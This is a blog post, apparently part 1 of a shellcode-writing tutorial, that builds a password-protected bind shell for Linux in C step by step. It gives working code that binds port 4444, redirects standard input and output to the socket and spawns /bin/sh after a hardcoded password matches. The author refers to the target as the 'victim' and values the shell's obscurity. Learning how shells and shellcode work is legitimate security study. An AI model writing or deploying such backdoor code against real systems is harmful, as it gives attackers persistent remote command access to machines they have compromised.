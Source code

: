 ```yaml
---
title: "Implementing a password protected bind shell in shellcode - Part 1"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately spawn a bind shell and require a password for connecting to it.

<h4>To accomplish this goal, we will break this process up into 3 parts:</h4>

<ol>
    <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and password protecting it.</li>
    <li>Secondly, the C code needs to be ported to x86_64 Assembly code.</li>
    <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

<h4>This blog post will consist of two parts:</h4>

<ul>
    <li>Part 1 - Writing a password protected bind shell in the C Programming Language</li>
    <li>Part 2 - Porting the C code to Linux 64-bit Assembly code and optimizing the code for use as shellcode</li>
</ul>

<h2>PART 1 - Writing a password protected bind shell for Linux in C</h2>
 
In this section, I will take you through a step-by-step process of coding a bind shell and will try my best to clarify it as best I can. Before we begin with this process though, let's make sure everybody knows what we are ultimately trying achieve.

<h3>What is a Bind Shell?</h3>

A Bind Shell is created when a socket is created on the host and is then bound to a specific port. A Bash shell is then bound to this specific socket. This means that anybody connecting to the listener will be presented with a bash shell upon successful connection. The security implication here is that anybody can connect to the running listener, so if we can password protect the bind shells that we spawn then we can prevent arbitrary connections to it and provides us with more control.

<h3>Creating the Bind Shell</h3>

In the process of creating a bind shell, we will be stepping through 7 stages:

<ol>
<li>Creating a new socket</li>
<li>Binding the newly created socket to a port</li>
<li>Listen for incoming connections on the newly created socket</li>
<li>Wait for incoming connections on the newly created socket</li>
<li>Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.</li>
<li>Wait for input (password) to be received and compare it against the correct password string</li>
<li>Spawn the shell, if password is correct</li>
</ol>


So let's get started in coding out the 7 stages.

<h3><b>Stage 1 - Creating a new socket</b></h3>

The skeleton code that we will be departing on this journey from can be seen below. This is essentially just declaring some variables, to be used later, as well as importing the necessary libraries we will be using in the code.

```c++
#include<stdlib.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>

int main()
{
        struct sockaddr_in server;
        struct sockaddr_in client;
        int sock;
        int new_sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        // Change arguments as required - last argument is password
        char *arguments[] = { "/bin/sh", 0, "4444", "YOLOOOOOOO" };
        char buf[16];
}
```

Creating the socket is handled by the socket syscall. Syscall stands for System Call and is used to make requests from the user space into the Linux Kernel. The importance and intricacies of syscalls when it comes to shellcode/Assembly Language will be explained in Part 2 of this blog. 

Referring to the man page for [socket](https://man7.org/linux/man-pages/man2/socket.2.html), it requires 3 arguments:

<ul>
    <li>Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)</li>
    <li>Communication Type - We will use SOCK_STREAM (TCP)</li>
    <li>The third argument does not concern us so we will only pass 0</li>
</ul>

```c++
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.

<h3><strong>Stage 2 - Binding the newly created socket to a port</strong></h3>

In this step we will assign an address to the newly created socket. We will use the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) syscall for this. The bind syscall again takes 3 arguments:

<ul>
    <li>The socket to bind to - We will use our new socket "sock"</li>
    <li>Data structure of the server/victim, which is essentially the IP Address and port that the bind syscall needs to use. This data structure consists of 4 members that are each explained below.</li>
    <li>Length of the data structure passed in argument 2. This was declared during the skeleton code stage.</li>
</ul>

```c++
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                             //htons converts host byte order to network byte order
server.sin_addr.s_addr = INADDR_ANY; //Netowrk interfaces to bind to, INADDR_ANY = All interfaces
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

bind(sock, (struct sockaddr *)&server, sockaddr_len);
```

<h3>Stage 3 - Listen for incoming connections on the newly created socket</h3>

The [listen](https://man7.org/linux/man-pages/man2/listen.2.html) syscall accepts 2 arguments:

<ul>
<li>File descriptor of new socket in Stage 1</li>
<li>Backlog - Maximum number of pending connections in the queue</li>
</ul>

```c++
listen(sock, 2);
```

<h3>Stage 4 - Wait for incoming connections on the newly created socket</h3>

For this stage we will wait for connections on our newly created socket, using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) syscall, and as soon as a connection is initiated, we will create new socket with the network information of the incoming connection and store it in a new variable. After the new socket is created, we will tear down or close the original socket.

The accept syscall takes 3 arguments:

<ul>
<li>The socket we are listening on</li>
<li>Pointer to a sockaddr data structure - as discussed in stage 2. the difference with this step is that the accept syscall will populate the 4 members of the data structure for us based on the incoming connection. </li>
<li>Pointer to the size of the sockaddr structure in point above. This was already declared in the variables at the start of the code.</li>
</ul>

```c++
new_sock = accept(sock, (struct sockaddr *)&client, &sockaddr_len);
close(sock);
```

The return value of the accept syscall is a new file descriptor pointing to the newly created socket.

<h3>Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities</h3>

For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities and we will be using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) syscall for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c++
dup2(new_sock, 0);
dup2(new_sock, 1);
dup2(new_sock, 2);
```

<h3>Stage 6 - Wait for input (password) to be received and compare it against the correct password string</h3>

Now that we have remote shell capabilities on our socket, lets wait for input (password) from the connection and compare it to the password that we have in memory. We will wait for and read input with the [read](https://man7.org/linux/man-pages/man2/read.2.html) syscall.

The read syscall accept 3 arguments:

<ul>
<li>File descriptor of our newly created socket</li>
<li>Buffer - was assigned at the variables section of the code</li>
<li>Number of bytes to read from the file descriptor into the buffer</li>
</ul>

We will then use the strcspn syscall to calculate the number of bytes in the buffer and and using strcmp syscall to compare the string in the buffer with our hardcoded password in memory. If the two strings match, the strcmp syscall will return a 0, and our program will continue. If the two strings don't match, our program/shell will exit.

```c++
read(new_sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[3], buf) == 0)
{
        execve(arguments[0], &arguments[0], NULL);
}
```

<h3>Stage 7 - Spawn the shell, if password is correct</h3>

So, if we have provided the correct password our program/shell will continue and actually spawn our shell, using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) syscall, as specified in the variables section.

The execve syscall executes a program using:

<ul>
<li>Pathname of the executable or script to run</li>
<li>A pointer to the filename/executable and arguments passed to the executable. We do not have any arguments in this case, so just the pointer to our executable</li>
<li>Environmental variables for use by the program - We set this to NULL as we are not concerned with this</li>
</ul>

```c++
execve(arguments[0], &arguments[0], NULL);
```

Hopefully, if we have done everything right, we will be presented with our remote shell capabilities on the victim. Personally, I prefer the fact that there is no prompt for a password as it adds an element of obscurity for somebody connecting to the shell without spawning it themselves.

The code for the password protected bind shell can be found [here](https://github.com/J33R4FF3/Pass_Bind_Shell).

I hope I explained everything in enough detail for it to make a bit more sense to you as this is also an attempt at understanding the inner workings of bind and reverse shells better myself.

In [PART 2](https://j33r4ff3.github.io/blog/Creating-TCP-Bind-Shell-with-C_2/) we will be discussing how to port all of the above to Linux x86_64 Assembly code so that we can use the shellcode when the situation presents itself. 
